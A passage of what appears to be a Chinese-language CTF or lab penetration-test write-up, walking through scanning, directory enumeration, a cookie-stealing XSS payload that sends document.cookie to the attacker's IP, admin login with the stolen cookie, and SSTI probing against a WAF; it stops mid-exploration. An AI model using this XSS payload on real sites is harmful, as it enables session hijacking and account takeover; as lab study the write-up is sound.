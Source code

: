 # 靶场&拓扑情况

# 渗透过程

nmap网络环境扫描

![](attachments/Pasted%20image%2020230321103537.png)

访问网页服务，信息收集

![](attachments/Pasted%20image%2020230321103914.png)

在contact发现了一个功能点

![](attachments/Pasted%20image%2020230321104043.png)

dirsearch目录扫描

![](attachments/Pasted%20image%2020230321112141.png)

后台

![](attachments/Pasted%20image%2020230321112408.png)

登录报文

![](attachments/Pasted%20image%2020230321112434.png)

这里思考了组件的漏洞和jwt的cookie伪造没有办法
最后的解决是XSS，在这里一个早一些和这个功能联系起来的
`<svg onload=document.location='http://192.168.163.128?c='+document.cookie>`

![](attachments/Pasted%20image%2020230321153525.png)

![](attachments/Pasted%20image%2020230321153920.png)

那这个cookie登录admin

![](attachments/Pasted%20image%2020230321155617.png)

这里去看log，但是很奇怪为什么bot点xss在我这里有反馈，导致没有办法做操作

![](attachments/Pasted%20image%2020230321160120.png)

这里用burp来拦截放包避免影响，或者构造这样的传参

![](attachments/Pasted%20image%2020230321161017.png)

现在下面可以看到大量的请求

![](attachments/Pasted%20image%2020230321161126.png)

会发现有一个访问了shell的cookie，偷过来用，进入shell界面

![](attachments/Pasted%20image%2020230321161707.png)

发现网站还在建设中，用不了，这里唯一有变化的是Auth的值，尝试SSTI发现报Don't think so!应该是waf

![](attachments/Pasted%20image%2020230321162715.png)

结合下面这个mofo=test的报文，应该是对Auth这个Cookie值有检测

![](attachments/Pasted%20image%2020230321163803.png)
